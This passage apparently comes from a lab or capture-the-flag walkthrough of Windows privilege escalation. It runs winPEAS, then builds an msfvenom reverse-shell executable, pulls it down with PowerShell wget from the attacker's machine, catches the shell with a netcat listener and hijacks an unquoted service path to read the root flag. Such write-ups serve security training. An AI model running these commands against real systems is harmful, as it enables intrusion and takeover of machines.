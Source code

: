     # python2 39161.py <IP address target machine> 8080
    # python2 39161.py <IP address target machine> 8080

## Escalation without metasploit

[Download a WINPEAS binary](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and put it in 
`~/Downloads` where the `http.server` is running.

Get it in the shell from the server:

    cd C:\Users\Bill\Desktop
    powershell -c wget "http://<IP address attack machine>/winPEAS.exe" -outfile "winPEAS.exe"

Execute winPEAS:

    winPEAS.exe

It has found some unquoted service paths. Just like PowerUp did.

Create a payload with `msfvenom` in the `~/Downloads` directory:

    msfvenom -p windows/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe

Pull to the system via PowerShell:

    powershell -c wget "http://<IP address attack machine>/ASCService.exe" -outfile "ASCService.exe"

Open a fourth terminal, with another listener:

    nc -lvnp 4443

Stop, replace executable and start the service:

    sc stop AdvancedSystemCareService9
    copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
    sc start AdvancedSystemCareService9

And when the connection is made, get the root flag:

    C:\Users\Administrator\Desktop>type root.txt
    type root.txt